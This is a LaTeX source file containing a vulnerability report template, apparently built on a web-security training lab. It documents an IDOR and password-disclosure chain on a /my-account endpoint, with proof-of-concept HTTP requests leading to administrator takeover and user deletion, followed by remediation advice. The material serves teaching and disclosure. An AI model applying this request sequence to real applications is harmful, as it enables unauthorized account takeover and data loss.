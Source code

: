 \documentclass[11pt,letterpaper]{article}
\begin{document}
\subsection{Report Template}

\begin{lstlisting}[caption={Vulnerability report template}]
# Vulnerability Report: IDOR + Password Disclosure Chain

## Executive Summary
The application's /my-account endpoint accepts a user-controlled 'id'
parameter without authorization checks, AND returns the user's current
password pre-filled in a masked input field. This allows any authenticated
user to extract the administrator's password and achieve full account
takeover.

## Severity Assessment
- CVSS v3.1 Base Score: 9.1 (Critical)
- Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
- Primary CWE: CWE-639 (IDOR), CWE-256 (Plaintext Password)

## Technical Details

### Vulnerability Chain
1. IDOR on /my-account endpoint
2. Password disclosure in HTML response
3. Account takeover via extracted credentials
4. Administrative privilege abuse

### Proof of Concept

#### Step 1: Login as wiener (low-privilege)
POST /login
username=wiener&password=peter

#### Step 2: Access administrator's account (IDOR)
GET /my-account?id=administrator
Cookie: session=[wiener's session]

Response contains:
<input type="password" name="password" value="[ADMIN_PASSWORD]">

#### Step 3: Login as administrator
POST /login
username=administrator&password=[EXTRACTED_PASSWORD]

#### Step 4: Delete user
GET /admin/delete?username=carlos

## Impact Analysis
- Complete account takeover of any user including administrator
- Full administrative access to application
- Ability to delete/modify any user
- Potential data breach of all user credentials

## Root Cause Analysis
1. Missing object-level authorization on account endpoint
2. Improper credential handling - passwords stored in retrievable form
3. Password pre-filled in client-side HTML

## Remediation Recommendations
1. Remove 'id' parameter - derive user identity from session
2. NEVER store passwords in retrievable form (use bcrypt/Argon2)
3. NEVER pre-fill password fields with existing values
4. Implement proper password reset flow instead of password display
5. Add object-level authorization checks on all user-specific endpoints

## References
- CWE-639: Authorization Bypass Through User-Controlled Key
- CWE-256: Plaintext Storage of a Password
- OWASP: Broken Access Control
\end{lstlisting}
\end{document}
